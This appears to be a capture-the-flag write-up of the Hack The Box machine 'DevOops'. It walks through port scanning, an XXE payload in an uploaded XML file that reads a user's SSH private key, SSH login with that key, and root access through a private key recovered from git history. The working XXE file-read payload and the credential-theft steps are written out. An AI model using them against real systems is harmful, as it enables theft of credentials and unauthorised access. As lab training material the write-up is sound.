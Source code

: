 ```yaml
---
layout: post
title:  "devOops"
category: writeups
author: mrtn
---
```


This is probably one of my most favourite boxes that have been released on hackthebox so far.

Before we start we prepare the `/etc/hosts` that we don't have to type the IP all the time:

```bash
echo "\n10.10.10.91 devoops.htb devoops" >> /etc/hosts
```

Before we can do anything else, we have to look against what we're up to.

## Recon 

```bash
nmap -v -sS -p- -A -T4 -oA
# Nmap 7.70 scan initiated Sun Sep 16 21:10:28 2018 as: nmap -v -sS -p- -A -T4 -oA devoops.htb/devoops.htb devoops.htb
Nmap scan report for devoops.htb (10.10.10.91)
Host is up (0.016s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

Nothing too fancy here. A simple Website on `5000` and ssh - let's move on to brute forcing hidden directories:

```bash
dirb http://10.10.10.91:5000

---- Scanning URL: http://10.10.10.91:5000/ ----
+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)
```

## Initial Foothold

This looks promising. Uploads are always a good idea. Seems like an upload form for `XML` Files. 
To poke a bit around, let's first try to get a valid format and upload that. From that point onward, we can try to create an exploit. 

The following file is valid and gets accepted. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<Author>author_value</Author>
<Subject>subject_value</Subject>
<Content>content_value</Content>
</root>
```

Time to do some research on `XML` - or rather `XXE`, which is part of the [OWASP Top 10](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)).

Now we try to inject a `READ` command via `XEE`. This one is the final one, that brings us to our goal. To validate the attack in general, start with reading `file:///etc/passwd`.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<root>
 <Author>John</Author>
 <Subject>&ent;</Subject>
 <Content>_</Content>
</root>
```

With the extracted *private* ssh key, we can now log in as roosa.

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh[/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
...
...
...s
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZ]Bd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

```bash
chmod 700 devoops.id_rsa
ssh -i devoops.id_rsa roosa@devoops.htbs
```

Success, logged in via `ssh private key`. Time to take the user flag:

```bash
cat user.txt
c5808...flaaaaaaaaaag...7b
```

## Privilege Escalation

Back to square one. We gained access to the machine - let's do some recon again.

Before we branch out into the file system, let's check the home folder of the user we just compromised. 

The folder `/home/roosa/work/blogfeed` looks like a promising target. It's a git repository, where roosa stores her work on the blogfeed with which we gained access.

```bash
git log
...
    reverted accidental commit with proper key
```

Interesting - some sort of key? 


```bash
git checkout <REVISION-UUID>
```

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
...
...
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----
```

Yet another private key - let's see, if this is the root-key:


```bash
cat authcredentials.key > devoops.id_rsa_root
chmod 700 devoops.id_rsa_root
ssh -X -i devoops_id_rsa_root root@10.10.10.91
```

Gotcha!

```bash
whoami
root
```

Time to collect the root flag and dance!

```bash
cat /root/root.txt
d4fe1...........s1ac7b3
```

## References

* [DevOops@htb](https://www.hackthebox.eu/home/machines/profile/140)
* [XXE OWASP Top 10](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE))